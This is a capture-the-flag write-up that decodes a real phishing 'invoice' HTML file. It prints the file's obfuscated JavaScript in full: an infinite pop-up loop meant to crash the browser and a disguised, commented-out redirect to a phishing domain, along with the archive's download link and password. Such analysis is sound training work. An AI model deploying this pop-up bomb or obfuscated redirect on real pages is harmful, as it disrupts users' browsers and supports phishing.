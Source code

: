 # danger-Live-and-Malicious-Code

## Description

Like the title says, this challenge is dangerous and contains live malware.

Shoutout to the hacker that I stole this from challenge from. Sadly I can't give them credit because they sent the phish from a compromised email, but it's literally his/her code. I just defanged it (a little bit - it will still crash your webbrowser (usually, but don't test that outside of a VM)) and stuck a WPI flag in here.

To prevent accidental execution the file has been zipped with the password "I_understand_that_this_challenge_contains_LIVE_MALWARE"

http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip

made by: The_Abjuri5t (John F.)

## Download and inspect the code

```
kali@kali:~/Downloads/wipctf$ wget http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
--2020-04-18 16:02:14--  http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
Resolving us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)... 173.255.231.96, 45.79.157.59, 96.126.106.143, ...
Connecting to us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)|173.255.231.96|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 729 [application/zip]
Saving to: ‘invoice.zip’

invoice.zip              100%[==================================>]     729  --.-KB/s    in 0s      

2020-04-18 16:02:14 (107 MB/s) - ‘invoice.zip’ saved [729/729]

kali@kali:~/Downloads/wipctf$ unzip invoice.zip 
Archive:  invoice.zip
[invoice.zip] invoice.html password: 
  inflating: invoice.html

kali@kali:~/Downloads/wipctf$ ls -l
total 8
-rw-r--r-- 1 kali kali 1243 Feb 22 22:29 invoice.html
-rw-r--r-- 1 kali kali  729 Apr 14 21:29 invoice.zip

kali@kali:~/Downloads/wipctf$ cat invoice.html 
<html>
<head>
<title></title>
</head>
<body>
<script>var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}</script></body>
</html>
```

## Analysis

Use `uglifyjs` to demangle that code.

```
kali@kali:~/Downloads/wipctf$ uglifyjs -b
var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}

var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

function abc(def) {
    popupWindow = window.open(def, "popUpWindow", "height=666,width=666,left=666,top=666");
}

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }
    };
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

for (var i = 1; i === i; i++) {
    abc(self.location, "_blank");
}
```

The for loop at the bottom is an infinite loop to create pop-up windows. We definitely don't want to run that. The other variables look interesting though. The flag is being built from the array of strings on the first line. Let's print them out and see what happens.

```
kali@kali:~/Downloads/wipctf$ cp invoice.html invoice_mod.html
kali@kali:~/Downloads/wipctf$ vim invoice_mod.html
kali@kali:~/Downloads/wipctf$ cat invoice_mod.html
<html>
<head>
<title></title>
</head>
<body>
<script>
var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }   
    };  
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};  

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

document.write("a: " + a + "<br>\n");
document.write("b: " + b + "<br>\n");
document.write("c: " + c + "<br>\n");
document.write("d: " + d + "<br>\n");
document.write("e: " + e + "<br>\n");
document.write("f: " + f + "<br>\n");
document.write("g: " + g + "<br>\n");
</script>
</body>
</html>
```

## Get the flag

Open `invoice_mod.html` in firefox and get:

```
a: lac,ryt,d}.,cod,pro,_no,ran,ing,dom,str,ete,rep,ps:,cte,5df,se_,toS,ing,tri,sub
b: function(c, d) { c = c - 0; var e = a[c]; return e; }
c: https://tryt5dfxc-rWPI
d: {Oh_nose_procoding_d
e: etected}.net/
f: 444423500012190de9ae4937da
g: deygcrb1hmfhgg1r9kty5a
```

The flag is:

```
WPI{Oh_nose_procoding_detected}
```

